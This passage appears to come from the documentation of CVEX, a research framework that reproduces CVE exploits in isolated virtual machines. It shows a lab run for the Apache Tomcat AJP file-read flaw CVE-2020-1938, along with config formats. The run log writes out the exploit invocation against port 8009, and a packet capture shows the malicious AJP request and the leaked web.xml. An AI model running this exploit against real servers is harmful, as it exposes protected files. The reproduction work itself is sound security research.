2024-10-23 15:47:46,030 - INFO - [ubuntu1] Restoring VM ubuntu1 (192.168.56.3) to snapshot 'clean'...
2024-10-23 15:47:46,030 - INFO - [ubuntu1] Deleting snapshot 'CVE-2020-1938/ubuntu1'...
2024-10-23 15:48:16,751 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:20,272 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:20,272 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:20,272 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:20,292 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:20,292 - INFO - [ubuntu1] 
2024-10-23 15:48:20,293 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:48:21,652 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:21,652 - INFO - [ubuntu1] 
2024-10-23 15:48:21,652 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,001 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,167 - INFO - [ubuntu1] Executing Ansible playbook CVE-2020-1938/ubuntu1.yml...
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:31,657 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:31,657 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:31,657 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:31,676 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:31,676 - INFO - [ubuntu1] 
2024-10-23 15:48:31,676 - INFO - [ubuntu1] TASK [Update apt cache] ********************************************************
2024-10-23 15:48:47,362 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:47,362 - INFO - [ubuntu1] 
2024-10-23 15:48:47,362 - INFO - [ubuntu1] TASK [Install dependencies (Java and utilities)] *******************************
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=curl)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=wget)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=tar)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] changed: [ubuntu1] => (item=openjdk-11-jre-headless)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] 
2024-10-23 15:49:30,767 - INFO - [ubuntu1] TASK [Create tomcat group] *****************************************************
2024-10-23 15:49:31,578 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:31,579 - INFO - [ubuntu1] 
2024-10-23 15:49:31,579 - INFO - [ubuntu1] TASK [Create tomcat user] ******************************************************
2024-10-23 15:49:32,595 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:32,595 - INFO - [ubuntu1] 
2024-10-23 15:49:32,596 - INFO - [ubuntu1] TASK [Create installation directory for Tomcat] ********************************
2024-10-23 15:49:33,554 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:33,554 - INFO - [ubuntu1] 
2024-10-23 15:49:33,555 - INFO - [ubuntu1] TASK [Extract apache-tomcat-9.0.30.tar.gz] *************************************
2024-10-23 15:49:36,535 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:36,535 - INFO - [ubuntu1] 
2024-10-23 15:49:36,535 - INFO - [ubuntu1] TASK [Create symbolic link for Tomcat installation] ****************************
2024-10-23 15:49:37,443 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:37,444 - INFO - [ubuntu1] 
2024-10-23 15:49:37,444 - INFO - [ubuntu1] TASK [Change ownership of the Tomcat directory] ********************************
2024-10-23 15:49:38,256 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:38,256 - INFO - [ubuntu1] 
2024-10-23 15:49:38,256 - INFO - [ubuntu1] TASK [Set environment variables for Tomcat] ************************************
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] 
2024-10-23 15:49:39,640 - INFO - [ubuntu1] TASK [Create systemd service for Tomcat] ***************************************
2024-10-23 15:49:41,117 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:41,117 - INFO - [ubuntu1] 
2024-10-23 15:49:41,117 - INFO - [ubuntu1] TASK [Reload systemd daemon] ***************************************************
2024-10-23 15:49:42,997 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:49:42,997 - INFO - [ubuntu1] 
2024-10-23 15:49:42,997 - INFO - [ubuntu1] TASK [Start and enable Apache Tomcat] ******************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:44,905 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:45,221 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 15:49:58,587 - INFO - [ubuntu2] Looking for a VM with CVE-2020-1938/ubuntu2 snapshot...
2024-10-23 15:50:04,497 - INFO - [ubuntu2] Retrieving status of ubuntu2...
2024-10-23 15:50:10,601 - INFO - [ubuntu2] Retrieving snapshot list of ubuntu2...
2024-10-23 15:50:14,227 - INFO - [ubuntu2] Restoring VM ubuntu2 (192.168.56.4) to snapshot 'clean'...
2024-10-23 15:50:14,227 - INFO - [ubuntu2] Deleting snapshot 'CVE-2020-1938/ubuntu2'...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:50:54,287 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:50:54,287 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:50:54,287 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:50:54,321 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:50:54,321 - INFO - [ubuntu2] 
2024-10-23 15:50:54,321 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:50:55,731 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:55,732 - INFO - [ubuntu2] 
2024-10-23 15:50:55,732 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:50:59,811 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,812 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:50:59,812 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,941 - INFO - [ubuntu2] Executing Ansible playbook CVE-2020-1938/ubuntu2.yml...
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,716 - INFO - [ubuntu2] PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,717 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:51:03,202 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:51:03,202 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:51:03,203 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:51:03,203 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:51:03,203 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:51:03,222 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:03,223 - INFO - [ubuntu2] 
2024-10-23 15:51:03,223 - INFO - [ubuntu2] TASK [Update apt package index] ************************************************
2024-10-23 15:51:20,141 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:20,141 - INFO - [ubuntu2] 
2024-10-23 15:51:20,141 - INFO - [ubuntu2] TASK [Install packages] ********************************************************
2024-10-23 15:51:40,027 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,027 - INFO - [ubuntu2] 
2024-10-23 15:51:40,028 - INFO - [ubuntu2] TASK [Create /opt/exploit] *****************************************************
2024-10-23 15:51:40,762 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,762 - INFO - [ubuntu2] 
2024-10-23 15:51:40,762 - INFO - [ubuntu2] TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] ******************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:42,715 - INFO - [ubuntu2] 
2024-10-23 15:51:42,715 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:51:42,716 - INFO - [ubuntu2] 
2024-10-23 15:51:42,845 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 15:51:54,458 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 15:51:56,534 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:51:56,591 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:51:56,613 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:51:56,644 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 15:51:56,662 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:51:56,700 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:51:56,795 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 15:51:58,731 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:51:58,810 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:51:58,908 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 15:52:00,760 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:00,813 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:00,828 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:00,846 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:00,871 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:00,925 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:01,010 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 15:52:03,486 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:03,563 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:03,669 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 15:52:03,720 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 15:52:03,734 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:03,771 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 15:52:04,795 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:04,851 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:04,872 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:04,939 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:04,952 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:05,000 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:05,071 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 15:52:07,314 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:07,411 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:07,507 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 15:52:07,556 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 15:52:07,563 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:07,611 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 15:52:07,642 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 15:52:07,711 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 15:52:07,801 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 15:52:07,858 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 15:52:07,943 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 15:52:07,980 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 15:52:08,529 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 15:52:11,885 - INFO - [ubuntu2] Executing 'python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml'...
2024-10-23 15:52:12,358 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 15:52:17,358 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 15:52:17,457 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 15:52:17,465 - INFO - [router] Stopping VM router...
2024-10-23 15:52:31,702 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 15:52:59,091 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

Let's see if CVEX was able to catch network interaction of the exploit with the Tomcat:
```
~/CVEX-records$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

Indeed, we see the attacker `192.168.56.4` (`ubuntu2`) connecting to `192.168.56.3:8009` (`ubuntu1`):
```
16:15:12.002248 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 0
E..<.Q@.?.v...8...8....I,[d..........o.........
.
..........
16:15:12.003393 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 0
E..<..@.@.Id..8...8..I......,[d................
3{.-.
......
```

Then the attacker is sending the malicious request to read the protected `WEB-INF/web.xml` file:
```
16:15:12.020448 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 398
E....S@.@.s...8...8....I,[d................
.
..3{.-.4......HTTP/1.1.../asdf...192.168.56.3.....192.168.56.3..P..	...
keep-alive...Accept-Language...en-US,en;q=0.5.....0...Accept-Encoding...gzip, deflate, sdch...Cache-Control..	max-age=0.....Mozilla...Upgrade-Insecure-Requests...1....	text/html.....192.168.56.3.
.!javax.servlet.include.request_uri.../.
..javax.servlet.include.path_info...WEB-INF/web.xml.
."javax.servlet.include.servlet_path.../..
```

Apache Tomcat replies with the content of the `WEB-INF/web.xml` file:
```
16:15:12.128822 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 1235
E.....@.@.G...8...8..I.....a,[fX....b......
3{...
.cAB.....<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
.
```

Format of `cvex.yml`:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint (optional)
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`. Always use `%vm_name%`, **never** hardcode IP addresses!
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

`command` is always executed as the user `vagrant`. You may use `sudo` to execute as root, as well as `sudo -u` to execute it as another user.

Commands are executed in the same order as present in cvex.yml. In the example below commands are executed in this order: command1, command2, command3, command4.
```
blueprint: ubuntu2204-ubuntu2204
ubuntu2:
  command:
    - "command1"
    - "command2"
ubuntu1:
  command:
    - "command3"
    - "command4"
```

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

The `ubuntu2204-ubuntu2204` blueprint that we used is stored in [blueprints/ubuntu2204-ubuntu2204/blueprint.yml](blueprints/ubuntu2204-ubuntu2204/blueprint.yml):
```
ubuntu1:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
ubuntu2:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Format of `blueprint.yml`:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

Contributors can provide additional blueprints.

## Contributions

To contribute a new CVEX record, create a pull request for a new subfolder inside https://github.com/ucsb-seclab/CVEX-records with the following infrastructure:
```
CVE-XXXX-YYYYY
├── cvex.yml
├── data
│   ├── file1.ext
│   ├── file2.ext
│   ├── file3.ext
│   ├── ...
│   └── fileN.ext
├── ansible_playbook1.yml
├── ansible_playbook2.yml
├── ansible_playbook3.yml
├── ...
└── ansible_playbookN.yml
```

In the first comment to the pull request briefly describe the vulnerability.

Keep vulnerable software and exploit in the `data` folder. Use Git LFS (Large File Storage) for big files. Do not rely on `apt install`, `pip`, URLs or similar methods do download vulnerable software or exploits.

To contribute a new blueprint, create a pull request for a new subfolder inside [blueprints](blueprints) with the following infrastructure:
```
blueprints/blueprint-name
├── blueprint.yml
└── ansible_playbook.yml
```

## Notes

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] Timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running. Be mindful, `cvex -k` will also leave the VMs running (which is great for debugging).

</details>

## Manage VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files in the `~/.cvex` folder:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

However, even though the VM disappears from the VirtialBox GUI, some remnants may remain in the `~/VirtualBox VMs` folder. Delete them manually.

`cvex -d all` destroys all VMs.

